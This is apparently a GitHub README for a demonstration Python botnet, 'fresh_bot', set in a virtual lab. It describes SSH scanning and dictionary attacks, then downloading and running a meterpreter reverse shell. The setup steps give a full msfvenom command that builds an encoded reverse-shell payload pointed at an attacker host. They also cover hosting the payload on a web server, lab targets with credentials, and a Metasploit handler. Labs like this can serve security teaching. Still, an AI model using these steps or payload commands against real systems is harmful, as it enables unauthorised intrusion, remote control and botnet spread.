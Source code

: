 # fresh_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" file scans virtual network. If it finds a node with ssh<br>
service it then performs a dictionary attack. If successful, script will<br>
attmept to download a meterpreter reverse shell payload and execute it.<br>
Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
3. Create Web Server & host payload: <h4>192.168.203.1/evil_file</h4>
4. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
5. Run metasploit hander: msf5 > use exploit/multi/handler module<br>
<br>
6. Attack/Exploit using dictionary attack.<br>
<br>
7. Run scan_drop.py on target.
